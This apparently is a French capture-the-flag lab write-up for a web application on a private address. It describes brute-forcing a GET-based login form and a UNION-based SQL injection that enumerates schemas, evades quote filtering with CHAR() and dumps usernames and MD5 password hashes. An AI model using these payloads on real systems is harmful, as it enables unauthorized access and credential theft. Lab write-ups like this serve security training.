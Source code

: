 # BruteForcer Member & SQL Injection

1. Solution 1 : La page http://192.168.1.16/index.php?page=signin permet de se log

On a un formulaire de signin 

On remarque que le formulaire utilise la méthode GET, donc les params submit passe par la query string
Donc on peut brute force le password, notamment avec la liste "common.txt" pour trouver que le password : shadow
CF. authForcer.py, bon faudrait un multi thread mais en laissant run longtemps ça suffit ^^'


2. Solution 2 : Injection SQL pour obtenir les passwords des users


SQL : schema > database > table

http://192.168.1.16/index.php?page=member

Quelques notions en SQL ici.

La table **SCHEMATA** fournit des informations sur les bases de données du serveur.

Exemple : 

    SELECT SCHEMA_NAME AS 'Database' FROM INFORMATION_SCHEMA.SCHEMATA [WHERE SCHEMA_NAME LIKE 'wild']

    SHOW DATABASES [LIKE 'wild']

L'affichage de la page http://192.168.1.16/index.php?page=member contient 2 champ, donc on procédera à la requête suivante (avec le null) pour avoir les schema :

--------> 1 OR 1=1 UNION SELECT null, schema_name from information_schema.schemata

On voit qu'il y a une DB 'Member_Brute_Force' (les autres : images : on a déjà eu le flag, sql_injection et survey on checkera + tard)

Pour avoir toutes les tables :

--------> 1 OR 1=1 UNION SELECT table_name, null from information_schema.tables

Mais on ne veut que les table de la DB Member_Brute_Force, essayons ceci (qui ne fonctionnera pas à cause des quotes) :

--------> 1 OR 1=1 union select null, table_name from information_schema.tables WHERE table_schema='Member_Brute_Force'

Le problème c'est que les guillements ne passent pas. Pour ça il y a un trick, c'est utiliser la fonction CHAR() de SQL

On a besoin de convertir Member_Brute_Force en tableau de char (ASCII)

Pour ça : https://onlinestringtools.com/convert-string-to-ascii

On obtient : 77 101 109 98 101 114 95 66 114 117 116 101 95 70 111 114 99 101

--------> 1 OR 1=1 union select null, table_name from information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)

Ça fonctionne ! :)

On obtient le nom de la table dans la Member_Brute_Force : db_default, on veut maintenant les colonnes :


--------> 1 OR 1=1 union select null, column_name from information_schema.columns WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)

username et password sont donc les noms des 2 colonnes dans de la table db_default

--------> 1 OR 1=1 union select username, password from Member_Brute_Force.db_default

    First name: root
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8 --> shadow

    First name: admin
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
